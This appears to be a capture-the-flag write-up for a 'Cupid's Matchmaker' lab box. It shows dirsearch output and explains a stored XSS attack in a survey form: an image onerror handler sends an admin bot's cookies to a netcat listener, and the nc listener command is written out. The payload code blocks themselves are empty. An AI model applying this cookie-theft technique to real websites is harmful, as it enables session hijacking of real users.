


# Cupid's Matchmaker

# Scenario



# Solution

Let’s explore the site


## Dirseach — Hidden Directories Enumeration

```bash
$ sudo dirsearch -u http://cupid.thm:5000/

[16:27:48] 302 -  199B  - /admin  ->  /login                                
[16:30:20] 200 -    2KB - /login                                            
[16:30:22] 302 -  189B  - /logout  ->  /                                    
[16:31:21] 200 -    5KB - /survey 
```

The `/login` page was useless tried several things from default creds to SQLi… nothing worked !!

We saw earlier in `/survey` white spaces that looks injectable let’s try `XSS injections`


## Payload : XSS (**Cross Site Scripting**)

- Tested many **XSS payloads** of course with the help of **chatgpt** , this worked for me

```bash

```

Let’s break it down clearly:

🔹 ``

Forces an image load error (since `x` is not valid).

🔹 `onerror=`

When the image fails to load, JavaScript executes.

🔹 `this.src=`

Changes the image source to our machine.

🔹 `document.cookie`

Reads all non-HttpOnly cookies.

So when the admin bot loads the submission:

1. The image fails
2. `onerror` executes
3. It sends a request to our `netcat` listener
4. The cookies are appended in the URL

---

- Set up A `netcat` listener now

```bash
nc -lnvp 1234
```

Then paste your payload here and wait 


Then wait for the `netcat` listener response



There you go JOB DONEE!! 😊
